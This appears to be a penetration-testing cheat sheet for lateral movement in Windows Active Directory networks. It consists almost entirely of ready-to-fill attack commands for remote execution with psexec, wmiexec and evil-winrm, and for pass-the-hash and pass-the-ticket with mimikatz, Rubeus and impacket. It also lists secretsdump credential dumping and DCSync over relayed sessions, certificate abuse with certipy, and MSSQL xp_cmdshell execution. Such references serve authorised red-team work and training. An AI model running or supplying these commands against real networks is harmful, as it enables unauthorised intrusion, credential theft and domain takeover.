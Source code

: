# Lateral Move

## Clear text Password >>> Admin
- Interactive-shell - psexec >>> Authority/System
  - `psexec.py <domain>/<user>:<password>@<ip>`
  - `psexec.exe -AcceptEULA \\<ip>`
  - `psexecsvc.py <domain>/<user>:<password>@<ip>`
- Pseudo-shell (file write and read)
  - `atexec.py  <domain>/<user>:<password>@<ip> "command"`
  - `smbexec.py  <domain>/<user>:<password>@<ip>`
  - `wmiexec.py  <domain>/<user>:<password>@<ip>`
  - `dcomexec.py  <domain>/<user>:<password>@<ip>`
  - `nxc smb <ip_range> -u <user> -p <password> -d <domain> -x <cmd>`
- WinRM >>> Low access || Admin
  - `evil-winrm -i <ip> -u <user> -p <password>`
  - `Enter-PSSession -ComputerName <computer> -Credential <domain>\<user>`
  - `nxc winrm <ip_range> -u <user> -p <password> -d <domain> -x <cmd>`
- RDP >>> Low access || Admin
  - `xfreerdp /u:<user> /d:<domain> /p:<password> /v:<ip>`
- SMB >>> Search files
  - `smbclient.py <domain>/<user>:<password>@<ip>`
  - `smbclient-ng.py -d <domain> -u <user> -p <password> --host <ip>`
- MSSQL >>> MSSQL
  - `nxc mssql <ip_range> -u <user> -p <password>`
  - `mssqlclient.py -windows-auth <domain>/<user>:<password>@<ip>`

## NT Hash
- Pass the Hash
  - MSSQL/PseudoShell PsExec/SMB...  >>> Admin
    - `impacket : same as with creds, but use -hashes ':<hash>'`
    - `nxc : same as with creds, but use -H ':<hash>'`
  - `mimikatz "privilege::debug sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<hash>"` >>> Admin
  - RDP >>> Low access || Admin
    - `reg.py <domain>/<user>@<ip> -hashes ':<hash>' add -keyName 'HKLM\System\CurrentControlSet\Control\Lsa' -v 'DisableRestrictedAdmin' -vt 'REG_DWORD' -vd '0'`
      - `xfreerdp /u:<user> /d:<domain> /pth:<hash> /v:<ip>`
  - WinRM >>> Low access || Admin
    - `evil-winrm -i <ip> -u <user> -H <hash>`
- Overpass the Hash / Pass the key (PTK) >>> Admin
  - `Rubeus.exe asktgt /user:victim /rc4:<rc4value>`
    - `Rubeus.exe ptt /ticket:<ticket>`
    - `Rubeus.exe createnetonly /program:C:\Windows\System32\[cmd.exe||upnpcont.exe]`
  - `getTGT.py <domain>/<user> -hashes :<hashes>`

## Kerberos
- Pass the Ticket (ccache / kirbi)
  - Convert Format
    - `ticketConverter.py <kirbi||ccache> <ccache||kirbi>`
  - `export KRB5CCNAME=/root/impacket-examples/domain_ticket.ccache` >>> Admin
    - `impacket tools: Same as Pass the hash but use : -k and -no-pass for impacket`
  - `mimikatz kerberos::ptc "<ticket>"`
  - `Rubeus.exe ptt /ticket:<ticket>`
  - `proxychains secretsdump.py -k'<domain>'/'<user>'@'<ip>'`
  - Modify SPN >>> PassTheTicket
    - `tgssub.py -in <ticket.ccache> -out <newticket.ccache> -altservice "<service>/<target>" #pr 1256`

- Aeskey >>> Admin
  - `impacket tools: Same as Pass the hash but use : -aesKey for impacket (and use FQDN)`
  - `proxychains secretsdump.py -aesKey <key> '<domain>'/'<user>'@'<ip>'`

## Socks (relay)
- `proxychains lookupsid.py <domain>/<user>@<ip> -no-pass -domain-sids`
- `proxychains mssqlclient.py -windows-auth <domain>/<user>@<ip> -no-pass` >>> MSSQL
- `proxychains secretsdump.py -no-pass '<domain>'/'<user>'@'<ip>'` >>> DCSYNC
- `proxychains smbclient.py -no-pass <user>@<ip>` >>> Search files
- `proxychains atexec.py  -no-pass  <domain>/<user>@<ip> "command"` >>> Authority/System
- `proxychains smbexec.py  -no-pass  <domain>/<user>@<ip>` >>> Authority/System

## Certificate (pfx)
- unpac the hash
  - `certipy auth -pfx <crt_file> -dc-ip <dc_ip>`
  - `gettgtpkinit.py -cert-pfx <crt.pfx> -pfx-pass <crt_pass> "<domain>/<dc_name>" <tgt.ccache>`
    - `getnthash.py -key '<AS-REP encryption key>' '<domain>'/'<dc_name>'`
- Pass the certificate
  - pkinit
    - `gettgtpkinit.py -cert-pfx "<pfx_file>" ^[-pfx-pass  "<cert-password>"] "<fqdn_domain>/<user>" "<tgt_ccache_file>"`
    - `Rubeus.exe asktgt /user:"<username>" /certificate:"<pfx_file>" [/password:"<certificate_password>"] /domain:"<fqdn-domain>" /dc:"<dc>" /show`
    - `certipy auth -pfx <crt_file> -dc-ip <dc_ip>`
  - schannel
    - `certipy auth -pfx <pfx_file> -ldap-shell`
      - add_computer
        - Set RBCD >>> RBCD
    - `certipy cert -pfx "<pfx_file>" -nokey -out "user.crt"`
      - `certipy cert -pfx "<pfx_file>" -nocert -out "user.key"`
        - `passthecert.py -action ldap-shell -crt <user.crt> -key <user.key> -domain <domain> -dc-ip <dc_ip>`

## MSSQL
- find mssql access
  - `nxc mssql <ip> -u <user> -p <password> -d <domain>` >>> MSSQL
- Users or Computers with SQL admin
- `MATCH p=(u:Base)-[:SQLAdmin]->(c:Computer) RETURN p` >>> MSSQL
- `mssqlclient.py -windows-auth <domain>/<user>:<password>@<ip>`
  - `enum_db`
  - `enable_xp_cmdshell`
    - `xp_cmdshell <cmd>` >>> Low Access
  - `enum_impersonate`
    - `exec_as_user <user>` >>> MSSQL
    - `exec_as_login <login>` >>> MSSQL
  - `xp_dir_tree <ip>` >>> COERCE SMB
  - `trustlink` 
    - `sp_linkedservers`
      - `use_link` >>> MSSQL || Trust